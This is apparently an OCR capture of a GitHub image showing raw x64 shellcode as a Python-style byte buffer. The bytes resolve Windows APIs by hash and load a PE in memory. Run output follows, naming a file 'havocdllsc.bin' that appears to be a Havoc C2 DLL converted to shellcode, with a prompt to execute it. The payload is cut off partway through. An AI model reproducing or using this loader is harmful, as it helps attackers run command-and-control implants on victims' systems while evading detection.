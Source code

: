 ```powershell
buf += b"\x48\x83\xe4\xf0\x48\x31\xd2\x65\x48\x8b\x42\x60\x48\x8b\x70\x20\x48\x83\xc6\x70"
buf += b"\xc6\x06\x0c\xc6\x46\x02\xff\x48\x8b\x76\x08\xc7\x06\x31\x00\x2e\x00\xc7\x46\x04"
buf += b"\x65\x00\x78\x00\xc7\x46\x08\x65\x00\x20\x00\xc6\x46\x0c\x00\x48\x8b\x70\x18\x48"
buf += b"\x8b\x76\x30\x4c\x8b\x0e\x4d\x8b\x09\x4d\x8b\x49\x10\xeb\x66\x41\x8b\x49\x3c\x4d"
buf += b"\x31\xff\x41\xb7\x88\x4d\x01\xcf\x49\x01\xcf\x45\x8b\x3f\x4d\x01\xcf\x41\x8b\x4f"
buf += b"\x18\x45\x8b\x77\x20\x4d\x01\xce\xe3\x3f\xff\xc9\x48\x31\xf6\x41\x8b\x34\x8e\x4c"
buf += b"\x01\xce\x48\x31\xc0\x48\x31\xd2\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb"
buf += b"\xf4\x44\x39\xc2\x75\xda\x45\x8b\x57\x24\x4d\x01\xca\x41\x0f\xb7\x0c\x4a\x45\x8b"
buf += b"\x5f\x1c\x4d\x01\xcb\x41\x8b\x04\x8b\x4c\x01\xc8\xc3\x48\x31\xc0\xc3\x4c\x89\xcd"
buf += b"\x41\xb8\x8e\x4e\x0e\xec\xe8\x8c\xff\xff\xff\x49\x89\xc4\x41\xb8\xaa\xfc\x0d\x7c"
buf += b"\xe8\x7e\xff\xff\xff\x49\x89\xc5\xeb\x0a\x48\x31\xc0\x8b\x43\x3c\x48\x01\xd8\xc3"
buf += b"\x48\x31\xf6\x48\x31\xff\x48\x8d\x1d\x17\x0f\x00\x00\xe8\xe4\xff\xff\xff\x8b\xb0"
buf += b"\x90\x00\x00\x00\x48\x01\xde\x8b\xb8\x94\x00\x00\x00\x48\x01\xf7\x48\x39\xfe\x74"
buf += b"\x74\x48\x31\xd2\x8b\x56\x10\x48\x85\xd2\x74\x69\x48\x31\xc9\x8b\x4e\x0c\x48\x01"
buf += b"\xd9\x41\xff\xd4\x48\x31\xd2\x8b\x56\x10\x48\x01\xda\x48\x89\xc1\x49\x89\xd6\x4c"
buf += b"\x89\xf2\x48\x8b\x12\x48\x85\xd2\x74\x3d\x49\xb9\x00\x00\x00\x00\x00\x00\x00\x80"
buf += b"\x4c\x85\xca\x48\x89\xcd\x75\x0c\x48\x01\xda\x48\x83\xc2\x02\x41\xff\xd5\xeb\x10"
buf += b"\x49\xb9\xff\xff\xff\xff\xff\xff\xff\x7f\x4c\x21\xca\x41\xff\xd5\x48\x89\xe9\x4c"
buf += b"\x89\xf2\x48\x89\x02\x49\x83\xc6\x08\xeb\xb8\x48\x83\xc6\x14\xeb\x87\x48\x31\xf6"
buf += b"\x48\x31\xff\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xff\xe8\x45\xff\xff\xff\x8b\xb0\xb0"
......126576 more bytes......


Generated shellcode successfully saved in file havocdllsc.bin


[#] Shellcode located at address 0x2108a9d0000

[!] PRESS TO EXECUTE SHELLCODED EXE...
```
